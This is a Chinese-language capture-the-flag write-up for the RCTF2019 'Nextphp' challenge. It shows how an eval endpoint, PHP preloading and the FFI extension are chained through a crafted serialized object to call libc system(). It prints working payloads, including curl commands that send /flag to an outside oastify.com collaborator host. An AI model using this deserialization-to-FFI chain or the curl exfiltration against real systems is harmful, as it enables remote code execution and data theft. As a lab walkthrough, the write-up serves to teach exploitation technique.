



# RCTF2019-Nextphp

参考博客：http://blog.csdn.net/m0_62422842/article/details/128323753

打开题目源码如下：

```
<?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```

先看看phpinfo搜集信息。可以看到过滤了很多函数

然后发现存在文件`preload.php `

使用include结合php伪协议读取源码

```
?a=include('php://filter/read=convert.base64-encode/resource=preload.php');
```

解码

```
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'print_r',
        'arg' => '1'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']); 
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}

```

# 前置知识

## FFI扩展

FFI扩展，自php7.4推出的新扩展，它能够实现高级语言之间的互相调用。而在php里，它能够加载动态链接库，调用底层c语言的一些函数。与以往的传统调用C语言库的方式不同，它能够直接在php脚本中调用C语言库中的函数。所以说，FFI扩展是危险的，因为能直接调用底层c库中命令执行函数可以完全绕过php层面上的限制。接下来了解一下FFI扩展的具体应用，直接看一个例子：

```
<?php
$ffi = FFI::cdef("int system(const char *command);");    
$ffi->system("echo Hello World>./ttmp");    
echo file_get_contents("./ttmp");
//输出结果为Hello World
?>
```

FFI::cdef，创建一个新的FFI对象，该函数有两个参数，分别为调用c函数和加载的libc库，最后返回一个新的FFI对象。



当第二个参数为空时，它会直接从php底层源码调用c函数。到目前为止，我们已经了解利用FFI扩展调用C函数的方法，接下来寻找利用条件。 

#### 触发条件

如果在php配置文件中开启了ffi.enable=preload，那么FFI中opcache.preload参数指定脚本能够调用FFI，而用户写的函数是没有办法直接调用的。翻看phpinfo，也确实指定了preload.php能够调用FFI。



preload.php文件中的代码很明显就是利用反序列化来触发FFI扩展的调用。在run函数有这样一串代码：

```php
$this->data['ret'] = $this->data['func']($this->data['arg']);
```

正好符合我们的FFI扩展函数格式。在这里引进了php7.4以上的两个魔术方法。



在反序列化的时候，会优先调用__unserializeh函数，从而触发run方法，达到目的。在这里我们要注意的是，在生成序列化串的exp中，我们必须要把__serialize函数注释掉，上面的图说的也比较清楚，这个函数在序列化的时候会最优先执行，里面的return语句会影响到序列化串。

注释前：

```
O:1:"A":3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:26:"int system(char *command);";}
```

 注释后：

```
C:1:"A":89:{a:3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:26:"int system(char *command);";}}
```

#### 疑难解惑

payload为什么会不一样？为什么第一个达不到攻击效果？仔细看第二个序列化串，它包裹了一串序列化数组，很明显在序列化的时候调用了serialize函数，在调试时，将第二个串进行反序列化的时候，它不会去执行__unserialize函数，反之执行了unserialize函数，当然触发这个函数也能调用run，没有问题。没有触发__unserialize函数的原因是因为:

```
public function __unserialize(array $data) {
        array_merge($this->data, $data);//合并为一个数组
        $this->run();
    }
```

它只接收数组类型，而我们的序列化串很明显就是string类型。知道了函数的调用关系，接下来说说第一个串为什么不行，这个串反序列化后自然是调用了__unserialize函数，它有一个数组合并操作，它会覆盖掉我们构造的属性，就没什么用了。所以，回归正题，注释掉__serialize函数就是为了避免触发__unserialize,造成属性污染。

构造exp生成序列化串：

```
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(char *command);'
    ];
    public function serialize (): string {
        return serialize($this->data);
    }
    public function unserialize($payload) {
        echo "unserialize";
    }
}
$a = new A();
echo serialize($a);
```

执行流程：反序列化字符串->触发unserialize函数->调用run方法->生成FFI扩展对象->调用c语言system函数。

题目无回显，利用curl外带flag，最终payload为：

```
?a=$a=unserialize('C:1:"A":89:{a:3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:26:"int system(char *command);";}}')->__serialize()['ret']->system('curl -d @/flag hufodijqt192qex1dy8wedc36ucl0bo0.oastify.com');
```

---

```
?a=$a=unserialize('C:1:"A":89:{a:3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:26:"int system(char *command);";}}')->__serialize()['ret']->system('curl hufodijqt192qex1dy8wedc36ucl0bo0.oastify.com?1=`cat /flag`');
```


